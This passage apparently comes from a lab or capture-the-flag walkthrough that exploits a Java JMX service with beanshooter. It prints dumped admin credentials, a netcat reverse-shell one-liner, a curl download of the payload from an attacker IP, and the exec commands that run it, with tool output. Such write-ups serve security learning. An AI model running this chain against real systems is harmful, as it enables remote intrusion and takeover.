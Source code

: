 ```console
[+]             Username:  manager
[+]             Password:  fhErvo2r9wuTEYiYgt
[+]             Roles:
[+]                        Users:type=Role,rolename="manage-gui",database=UserDatabase
[+]
[+]             ----------------------------------------
[+]             Username:  admin
[+]             Password:  onyRPCkaG4iX72BrRtKgbszd
[+]             Roles:
[+]                        Users:type=Role,rolename="role1",database=UserDatabase
```

After looking through the documentation, it's possible to get code execution by leveraging the `standard` MBean to execute commands on the server.

There are probably multiple ways to do this, but I put the following payload in a file and saved it as `shell.sh`

```console
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.2.86 9001 >/tmp/f
```

We can use `beanshooter` to grab the `shell.sh` file from our attacker machine. Please note that I have an alias set up for 'beanshooter' that runs the JAR file. 

```console
➜  manage $ beanshooter standard $ip 2222 exec 'curl http://10.8.2.86:8000/shell.sh -o /dev/shm/shell.sh'
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Creating a TemplateImpl payload object to abuse StandardMBean
[+]
[+]     Deplyoing MBean: StandardMBean
[+]     MBean with object name de.qtc.beanshooter:standard=4573249368457 was successfully deployed.
[+]
[+]     Caught NullPointerException while invoking the newTransformer action.
[+]     This is expected bahavior and the attack most likely worked :)
[+]
[+]     Removing MBean with ObjectName de.qtc.beanshooter:standard=4573249368457 from the MBeanServer.
[+]     MBean was successfully removed.
```

Once the `shell.sh` file is on the target machine we can execute it with the following:

```console
➜  manage $ beanshooter standard $ip 2222 exec 'sh /dev/shm/shell.sh'
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Creating a TemplateImpl payload object to abuse StandardMBean
[+]
[+]     Deplyoing MBean: StandardMBean
[+]     MBean with object name de.qtc.beanshooter:standard=4794690013321 was successfully deployed.
[+]
[+]     Caught NullPointerException while invoking the newTransformer action.
[+]     This is expected bahavior and the attack most likely worked :)
[+]
[+]     Removing MBean with ObjectName de.qtc.beanshooter:standard=4794690013321 from the MBeanServer.
[+]     MBean was successfully removed.
```
